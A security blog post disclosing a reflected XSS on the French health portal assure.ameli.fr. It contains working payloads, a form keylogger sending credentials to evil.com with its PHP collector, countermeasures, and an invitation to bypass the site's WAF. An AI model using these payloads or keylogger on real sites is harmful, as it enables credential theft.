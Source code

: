```yaml
---
layout: post
title:  "A fun case of XSS and other web concepts"
date:   2017-07-25
category: Web Security
excerpt_separator: <!--more-->
---
```

Hello folks,  
  
I would like to share with you a practical case of reflected XSS while i was looking at my national health service account. Right now the XSS has been patched (we have an efficient dedicated national service where we can report such issues).
<!--more-->  
  
**What is the issue:**  
A reflected [XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) in the login field at the authentication page from the website https://assure.ameli.fr where all french citizen are consulting their social security account. Some digits are required but setting some alphacharacters as login will return the string in uppercase.  
  
**Where is the issue**  
So i set:  
![image1]({{ site.url }}/public/images/xss-practical-case/image1.png)  
  
And i got:  
```html
<form name="connexionCompteForm" id="connexioncompte_2connexionCompteForm" method="post" action="https://assure.ameli.fr:443/PortailAS/appmanager/PortailAS/assure?_nfpb=true&amp;_windowLabel=connexioncompte_2&amp;connexioncompte_2_actionOverride=%2Fportlets%2Fconnexioncompte%2Fvalidationconnexioncompte&amp;_pageLabel=as_login_page" class="r_cnx_form">
...
<input id="connexioncompte_2nir_as" type="text" value="THEPOSTLOGIN" maxlength="13" size="13" placeholder="Mon numéro de sécurité sociale" title="Mon numéro de sécurité sociale" tabindex="3" name="connexioncompte_2numSecuriteSociale" />
...
</form>
```  
  
Let's try something else with the login **toto<>"'();/\:**:  
```
<input id="connexioncompte_2nir_as" type="text" value="TOTO<>"'();/\" maxlength="13" ...
```
  
No escaping, no sanitizing or HTML encoding but we will have to deal with UPPERCASE. **HTML is not case sensitive but javascript is**, so we will do some HEX encoding for the javascript part.  
  
So this is **how to exploit an XSS will your payload is uppercased:**  
  
**First payload:**  
We can test the XSS thanks to this payload (alert):  
```
https://assure.ameli.fr/PortailAS/appmanager/PortailAS/assure?connexioncompte_2numSecuriteSociale=" /><IMG SRC=X ONERROR=&#x61;&#x6C;&#x65;&#x72;&#x74;(&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x64;&#x6F;&#x6D;&#x61;&#x69;&#x6E;) hidden><nimp "&connexioncompte_2codeConfidentiel=&connexioncompte_2actionEvt=connecter
```
  
Full payload url encoded:  
```
https://assure.ameli.fr/PortailAS/appmanager/PortailAS/assure?connexioncompte_2numSecuriteSociale=%22%20%2F%3E%3CIMG%20SRC%3DX%20ONERROR%3D%26%23x61%3B%26%23x6C%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B(%26%23x64%3B%26%23x6F%3B%26%23x63%3B%26%23x75%3B%26%23x6D%3B%26%23x65%3B%26%23x6E%3B%26%23x74%3B%26%23x2E%3B%26%23x64%3B%26%23x6F%3B%26%23x6D%3B%26%23x61%3B%26%23x69%3B%26%23x6E%3B)%20hidden%3E%3Cnimp%20%22&connexioncompte_2codeConfidentiel=&connexioncompte_2actionEvt=connecter
```
  
*But wait... you process a GET request and you were talking about a form with POST method ?*  
Yes, there but there is no server-side filter on the specific POST method.  
  
So what do we have?  
![image2]({{ site.url }}/public/images/xss-practical-case/image2.png)  
  
It works because i'm using Firefox, IE and Chrome embed a reflected XSS auditor and will prevent this kind of javascript execution. Back to the javascript part, now we will just call our own javascript file. With our next payload, we will take care to keep the webpage as it is (no error message, keeping placeholder, ...).  
  
**Second payload:**  
```
" name="connexioncompte_2numSecuriteSociale" placeholder="&#x4d;&#x6f;&#x6e;&#x20;&#x6e;&#x75;&#x6d;&#xe9;&#x72;&#x6f;&#x20;&#x64;&#x65;&#x20;&#x73;&#xe9;&#x63;&#x75;&#x72;&#x69;&#x74;&#xe9;&#x20;&#x73;&#x6f;&#x63;&#x69;&#x61;&#x6c;&#x65;" /><script src='https://evil.com/poc/poc.js'></script><nimp "
```  
  
Full payload url encoded:  
```
https://assure.ameli.fr/PortailAS/appmanager/PortailAS/assure?connexioncompte_2numSecuriteSociale=%22%20name%3D%22connexioncompte_2numSecuriteSociale%22%20placeholder%3D%22%26%23x4d%3B%26%23x6f%3B%26%23x6e%3B%26%23x20%3B%26%23x6e%3B%26%23x75%3B%26%23x6d%3B%26%23xe9%3B%26%23x72%3B%26%23x6f%3B%26%23x20%3B%26%23x64%3B%26%23x65%3B%26%23x20%3B%26%23x73%3B%26%23xe9%3B%26%23x63%3B%26%23x75%3B%26%23x72%3B%26%23x69%3B%26%23x74%3B%26%23xe9%3B%26%23x20%3B%26%23x73%3B%26%23x6f%3B%26%23x63%3B%26%23x69%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%22%20%2F%3E%3Cscript%20src%3D%27https%3A%2F%2Fevil.com%2Fpoc%2Fpoc.js%27%3E%3C%2Fscript%3E%3Cnimp%20%22&connexioncompte_2codeConfidentiel=&connexioncompte_2actionEvt=connecter
```  
   
On our apache we are creating the web tree *POC/POC.JS* (scheme and domain name are not case sensitive). But does a little bird sing the word CORS (Cross-Origin Resource Sharing)?  
  
Here are some examples of resources which may be embedded cross-origin ([https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)):  
 - JavaScript with ```<script src="..."></script>```. Error messages for syntax errors are only available for same-origin scripts.
 - CSS with ```<link rel="stylesheet" href="...">```. Due to the relaxed syntax rules of CSS, cross-origin CSS requires a correct Content-Type header. Restrictions vary by browser: IE, Firefox, Chrome, Safari (scroll down to CVE-2010-0051) and Opera.
 - Images with ```<img>```. Supported image formats include PNG, JPEG, GIF, BMP, SVG, ...
 - Media files with ```<video>``` and ```<audio>```.
 - Plug-ins with ```<object>```, ```<embed>``` and ```<applet>```.
 - Fonts with ```@font-face```. Some browsers allow cross-origin fonts, others require same-origin fonts.
 - Anything with ```<frame>``` and ```<iframe>```. A site can use the X-Frame-Options header to prevent this form of cross-origin interaction.
  
But in fact whatever... we are owning the web server we would be able to add if it was necessary the response header ```access-control-allow-origin: *``` for any ressources.  
  
But what kind of cool javascript payload can we inject? (knowing that the JSESSIONID cookie has the flag HttpOnly so not accessible via javascript).  
  
![image3]({{ site.url }}/public/images/xss-practical-case/image3.png)  
  
We will add a callback function that will be executed once the web page forms will be submitted (allowing us to capture the credentials). Check [https://github.com/phackt/pentest/tree/master/exploits/js_keylogger](https://github.com/phackt/pentest/tree/master/exploits/js_keylogger) for source code.  
  
**POC.JS**:  
```javascript
window.onload = function () {
	for(var i=0; i<document.forms.length; i++){
	  	document.forms[i].addEventListener("submit", function() {
	  		for(e=0; e<this.elements.length; e++){
	  			keys = "[name:" + this.elements[e].name + ",value:" + this.elements[e].value + ",type:" + this.elements[e].type + "]";
	  			new Image().src = 'https://evil.com/key.php?c='+keys;
	  		}
    	}, false);
	}
}
```
  
**key.php**:  
```php
<?php
if(!empty($_GET['c'])) {
    $logfile = fopen('data.txt', 'a+');
    fwrite($logfile, $_GET['c']."\n");
    fclose($logfile);
}
?>
```  
  
So suppose you are receiving a link which exploits the XSS vulnerability and you innocently enter your credentials to check your account, the attacker will receive:  
```
[name:CONNEXIONCOMPTE_2NUMSECURITESOCIALE,value:1234567890123,type:text]
[name:connexioncompte_2codeConfidentiel,value:89769874,type:password]
[name:connexioncompte_2actionEvt,value:connecter,type:hidden]
[name:submit,value:Valider,type:submit]
```  
  
This kind of vulnerability could be part of a phishing campaign which encourages people to log in by clicking on the malicious link.  
  
**COUNTERMEASURES**:  
 - HTML Encoding (HTML entities and numeric character references) - [https://en.wikipedia.org/wiki/Character_encodings_in_HTML](https://en.wikipedia.org/wiki/Character_encodings_in_HTML)
 - Sanitizing
 - Escaping
 - White-listing
 - Explicit X-XSS-Protection header ([https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/X-XSS-Protection](https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/X-XSS-Protection))
 - Only POST requests for sensitive operations  
  
Blocking all cross domains requests via a Content Security Policy rule ([https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)) may be not relevant because a lot of these ressources are legitimate on a website. However we can do some subtle CSP rules in order to allow only what is needed.  
But if a web site administrator wants all content to come from the site's own origin (this excludes subdomains):  
```
Content-Security-Policy: default-src 'self'
```
  
**UPDATE 21/09/2017**:  
Apparently some waf is now blacklisting some malicious strings:  
```bash
wafw00f https://assure.ameli.fr/
...
The site https://assure.ameli.fr/ is behind a F5 BIG-IP APM
```  
  
Unfortunately the special characters are still not html encoded (test with ```'';!--"<XSS>=&{()}```).  
Feel free to try to bypass it and let me know.  
  
Web applications are really interesting because of all the concepts you have to deal with.  
  
Hope you enjoyed.  
  
Phackt.
